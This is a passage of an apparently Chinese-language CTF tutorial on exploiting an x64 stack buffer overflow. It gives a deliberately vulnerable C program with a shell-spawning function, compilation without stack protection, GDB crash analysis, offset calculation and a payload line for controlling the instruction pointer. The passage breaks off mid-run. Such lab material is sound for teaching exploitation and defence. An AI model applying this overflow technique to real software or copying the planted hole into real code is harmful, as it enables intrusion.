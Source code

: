 void callsystem()
{
    system("/bin/sh");
}

void vulnerable_function() {
    char buf[128];
    read(STDIN_FILENO, buf, 512);
}

int main(int argc, char** argv) {
    write(STDOUT_FILENO, "Hello, World\n", 13);
    vulnerable_function();
}
我们打开ASLR并用如下方法编译：

#!bash
$ gcc -fno-stack-protector level3.c -o level3
通过分析源码，我们可以看到想要获取这个程序的shell非常简单，只需要控制PC指针跳转到callsystem()这个函数的地址上即可。因为程序本身在内存中的地址不是随机的，所以不用担心函数地址发生改变。接下来就是要找溢出点了。我们还是用老方法生成一串定位字符串：

#!bash
$python pattern.py create 150 > payload
$ cat payload 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9
然后运行gdb ./level3后输入这串字符串造成程序崩溃。

#!bash
(gdb) run < payload
Starting program: /home/mzheng/CTF/level3 < payload
Hello, World

Program received signal SIGSEGV, Segmentation fault.
0x00000000004005b3 in vulnerable_function ()
奇怪的事情发生了，PC指针并没有指向类似于0x41414141那样地址，而是停在了vulnerable_function()函数中。这是为什么呢？原因就是我们之前提到过的程序使用的内存地址不能大于0x00007fffffffffff，否则会抛出异常。但是，虽然PC不能跳转到那个地址，我们依然可以通过栈来计算出溢出点。因为ret相当于“pop rip”指令，所以我们只要看一下栈顶的数值就能知道PC跳转的地址了。

#!bash
(gdb) x/gx $rsp
0x7fffffffe188: 0x3765413665413565
在GDB里，x是查看内存的指令，随后的gx代表数值用64位16进制显示。随后我们就可以用pattern.py来计算溢出点。

#!bash
$ python pattern.py offset 0x3765413665413565
hex pattern decoded as: e5Ae6Ae7
136
可以看到溢出点为136字节。我们再构造一次payload，并且跳转到一个小于0x00007fffffffffff的地址，看看这次能否控制pc的指针。

#!bash
python -c 'print "A"*136+"ABCDEF\x00\x00"' > payload

(gdb) run < payload 
Starting program: /home/mzheng/CTF/level1 < payload
Hello, World
